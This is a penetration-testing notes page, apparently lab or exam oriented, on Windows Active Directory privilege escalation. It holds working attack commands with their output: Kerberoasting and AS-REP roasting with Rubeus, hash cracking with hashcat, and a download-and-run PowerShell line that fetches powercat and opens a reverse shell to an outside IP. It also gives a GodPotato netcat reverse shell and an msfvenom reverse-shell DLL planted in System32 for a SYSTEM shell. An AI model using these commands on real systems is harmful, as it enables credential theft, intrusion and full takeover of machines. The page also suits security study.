 # Escalating Privilege

## Abusing Active Directory Authentication

Sometimes a way of escalating privileges is by moving laterally. We can take advantage of the same techniques and tools we would use for moving laterally to escalate our privileges.

### Kerberoasting with Rubeus

{% embed url="https://github.com/GhostPack/Rubeus" %}

If Rubeus is not installed we'll have to switch to our Windows dev box and compile via VIsual Studio. We can transfer the binary back to our Kali host then to our victim.

```powershell
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```

### Cracking with Hashcat

```shell-session
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
```



### AS-REP Roasting with Rubeus

```powershell
PS C:\Users\Public> .\Rubeus asreproast /nowrap
.\Rubeus asreproast /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0 


[*] Action: AS-REP roasting

[*] Target Domain          : relia.com

[*] Searching path 'LDAP://DC02.relia.com/DC=relia,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : michelle
[*] DistinguishedName      : CN=Michelle Smith,CN=Users,DC=relia,DC=com
[*] Using domain controller: DC02.relia.com (172.16.103.6)
[*] Building AS-REQ (w/o preauth) for: 'relia.com\michelle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$michelle@relia.com:0C5BDBDC
```

### Cracking with Hashcat

```bash
kali@kali sudo hashcat -m 18200 michelle.asrep /usr/share/wordlists/rockyou.txt --force
```

## Checking Groups - net user&#x20;

Another way we can check groups a user belongs to is using `net user`

```powershell
PS C:\Users\tony> net user tony
User name                    tony
Full Name                    Nothing Stops
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/16/2023 1:57:34 PM
Password expires             Never
Password changeable          6/16/2023 1:57:34 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

## Runas Command

If we've gained access to a plaintext password, it's possible to use the [`runas` ](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\))command to execute commands as that user.

```powershell
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...
PS C:\Users\steve> 
```

## Invoke-Runas

If we've gained access to a plaintext password, but don't have a full shell, we can use the [`Invoke-Runas`](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) command that's part of the[ `PowerShell-Suite`](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master). Here is an updated and new version.&#x20;

{% embed url="https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1" %}

```powershell
PS> import-module ./Invoke-RunasCs.ps1
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
```

### Spawn reverse shell

Powercat

```powershell
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.211/powercat.ps1');powercat -c 192.168.49.211 -p 5555 -e cmd"
```



## Insecure Privileges

The first thing to do when popping a Windows shell is to check the user privileges.

```powershell
C:\Users\svc_mssql>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled

```

### SeImpersonatePrivilege

{% embed url="https://github.com/BeichenDream/GodPotato" %}

```powershell
.\GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

### SeManageVolumePrivilege

Running this exploit allows us RWX access to C:\ drive. We can create any PE or dll and execute it. To gain SYSTEM we can replace a dll with a malicious one.

{% embed url="https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public" %}

Run exploit

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\Users\svc_mssql> .\SeManageVolumeExploit.exe
</strong></code></pre>

#### Create malicious dll & replace it in C:\Windows\System32\wbem\\

```shell-session
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.211 LPORT=6666 -f dll -o tzres.dll
```

#### Execute systeminfo (triggering malcious dll). We get a SYSTEM shell back to our listener.

```powershell
PS> systeminfo
```



SeDebugPrivilege

SeTakeOwnershipPrivilege
